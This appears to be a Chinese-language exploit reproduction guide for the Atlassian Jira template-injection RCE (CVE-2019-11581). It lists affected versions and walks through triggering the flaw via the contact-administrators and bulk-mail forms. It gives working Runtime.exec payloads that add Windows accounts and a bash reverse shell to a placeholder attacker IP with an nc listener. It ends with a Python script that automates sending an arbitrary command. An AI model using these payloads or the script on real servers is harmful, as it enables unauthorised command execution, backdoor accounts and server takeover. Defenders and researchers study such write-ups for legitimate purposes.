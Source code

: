 （CVE-2019-11581）Atlassian Jira 远程命令执行漏洞
=================================================

一、漏洞简介
------------

此漏洞由于Atlassian Jira中的Atlassian Jira Server和Jira Data
Center模块存在模板注入，当"联系管理员表单"功能开启时，攻击者可以在表单插入java恶意代码,当服务端对传入数据进行解析时,会执行数据中插入的恶意代码,并执行其中的命令。**攻击者通过这种方式可以实现远程代码执行漏洞的利用，获取服务器的敏感信息泄露，甚至可以利用此漏洞进一步对服务器数据进行修改，增加，删除等操作**，对服务器造成巨大的影响。

二、漏洞影响
------------

Atlassian Jira 4.4.xAtlassian Jira 5.x.xAtlassian Jira 6.x.xAtlassian Jira 7.0.xAtlassian Jira 7.1.xAtlassian Jira 7.2.xAtlassian Jira 7.3.xAtlassian Jira 7.4.xAtlassian Jira 7.5.xAtlassian Jira 7.6.x \< 7.6.14Atlassian Jira 7.7.xAtlassian Jira 7.8.xAtlassian Jira 7.9.xAtlassian Jira 7.10.xAtlassian Jira 7.11.xAtlassian Jira 7.12.xAtlassian Jira 7.13.x \< 7.13.5Atlassian Jira 8.0.x \< 8.0.3Atlassian Jira 8.1.x \< 8.1.2Atlassian Jira 8.2.x \< 8.2.3

三、复现过程
------------

### 漏洞分析

**1.利用前提条件：**

第一种，未授权代码执行利用条件：Jira已配置好SMTP服务器，且需开启"联系网站管理员表单"功能。（从WEB界面设计上看，实际上如果没配置SMTP服务器，无法开启此功能

第二种利用场景前提是拿到Jira管理员的权限，利用条件较难满足，这里主要分析第一种情况。原因在于atlassian-jira/WEB-INF/classes/com/atlassian/jira/web/action/user/ContactAdministrators
未对Subject（邮件主题）处进行过滤，用户传入的邮件主题被当作template（模板）指令执行。在任何一种情况下，成功利用此漏洞的攻击者都可在运行受影响版本的Jira
Server或Jira Data Center的系统上执行任意命令。

**2.以下两种url漏洞验证方式：**

第一种无需管理员账户权限：http://www.0-sec.org:8080[/secure/ContactAdministrators!default.jspa](http://ip:port/secure/ContactAdministrators!default.jspa)

![](./resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId26.png)

第二种需管理员账户权限：http://www.0-sec.org:8080/secure/admin/SendBulkMail!default.jspa

![](./resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId27.png)

### 漏洞复现

**1. 漏洞利用条件**

联系管理员处必须开启 （需要知道后台管理员账号密码）

**2.环境准备：**

Atlassian JIRAv7.13.0 (以该版本为例，该版本存在漏洞)下载地址：

https://product-downloads.atlassian.com/software/jira/downloads/atlassian-jira-software-7.13.0-x64.exe

安装过程不再描述（按照提示进行安装，先在官方注册一个账号然后拿到一个试用期序列号并进行安装），注意，到了邮件配置那一步经尽量选以后(默认就是)，然后进入后台配置。

**3.确认未登陆状态下漏洞的存在**

访问如下URL（无需管理员账户权限）：

http://www.0-sec.org:8080/secure/ContactAdministrators!default.jspa

如果提示如下图，这说明没有配置联系管理员是无法触发漏洞。

![](./resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId29.png)

请登陆后台开启联系管理员，配置地址如下：

http://www.0-sec.org:8080/secure/admin/EditApplicationProperties!default.jspa

默认是关闭的，需要配置了STMP发信后才能开启，配置STMP的时候可以测试连接，服务器必须开25端口，不然不能发邮件，下图是开启成功

![](./resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId30.png)

**4.未登陆状态下触发漏洞**

访问

http://www.0-sec.org:8080/secure/ContactAdministrators!default.jspa

![](./resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId31.png)

在Subject填入payload，注意，我这里环境是windows机器，所以可以添加账号观察，Linux可以用反弹shell的代码等等,反正换成自己想执行的命令。

    $i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user bk abc@ABC123 /add').waitFor()

![](./resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId32.png)

发送了后可能会等一会儿，因为要加入邮件队列。这时候再上服务器执行net
user查看，发现正是刚刚执行命令添加的账户。

![](./resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId33.png)

**5. 登陆管理员账号触发漏洞**

登陆管理员账号，然后访问如下URL：

http://www.0-sec.org:8080/secure/admin/SendBulkMail!default.jspa

填入payload，如下，注意执行命令添加账号的账户名

    $i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user bk01 abc@ABC123 /add').waitFor()

![](./resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId34.png)

![](./resource/(CVE-2019-11581)AtlassianJira远程命令执行漏洞/media/rId35.png)

linux下可执行：

目标Jira系统可执行的POC

    $i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://www.baidu.com').waitFor()
    $i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('bash -i >& /dev/tcp/攻击者IP/2333 0>&1').waitFor()

攻击者主机执行:nc -lvvp 2333

### poc

> scan

    #/usr/bin/python
    # -*- coding: utf8 -*-

    # 
    # the program intents to automate the process of exploiting CVE-2019-11581 During our engagments - quick and dirty
    # I will probably will add features to make it more easy.
    # Ths is some skeleton and probably things will not work on first run


    # Importing
    import requests
    import sys
    import argparse
    from bs4 import BeautifulSoup
    import cmd

    parser = argparse.ArgumentParser()
    parser.add_argument("domain", help="JIRA Instance")
    parser.add_argument("cmd", help="Command to run")
    args = parser.parse_args()

    #Some Debugging Globals
    http_proxy  = "http://127.0.0.1:8080"
    https_proxy = "https://127.0.0.1:8080"
    ftp_proxy   = "ftp://127.0.0.1:8080"
    #Proxy Dictionary
    proxyDict = { 
                  "http"  : http_proxy, 
                  "https" : https_proxy
                }
    headers = {'UserAgent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0'}


    def JiraScan(domain,cmd):
        #Filtering host
        domain = domain + '/secure/ContactAdministrators!default.jspa'
        #Checking if host is vulnerable by checking if specific string is present
        s = requests.Session()
        r = s.get(domain, proxies=proxyDict, verify=False)
        html_doc = r.content
        soup = BeautifulSoup(html_doc, 'lxml')
        
        notvuln = soup.findAll("div",{"class":"aui-message aui-message-warning warningd"})
        if notvuln:
            print "[-] Not Vulnerable"
        else:
            print "[+] Checking if Vulnerable"
            #In order to have valid request we need to handle JIRA CSRF Tokens
            #Extracting atl_token from form
            html_doc = r.content
            soup = BeautifulSoup(html_doc, 'lxml')
            data = soup.findAll(attrs={"name" : "atl_token"})
            print data
            #Returning Token value
            token = data[0]['value']
            print token
            #Replacing path
            domain= domain.replace('!default.jspa','.jspa')
            # body of post request
             #(),'subject':"",'details':",'atl_token': value,'Send':'Send'}
            payload = "$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('%s').waitFor()" % cmd
            qparams = (('from','JIRA@JIRA.com'),('subject',payload),('details',payload),('atl_token',token),('Send','Send'))
            
            #Final Payload
            attack = s.post(domain, headers = headers, data = qparams, proxies=proxyDict, verify=False)

    if __name__ == '__main__':
        JiraScan(args.domain,args.cmd)

参考链接
--------

> https://www.cnblogs.com/backlion/p/11608439.html
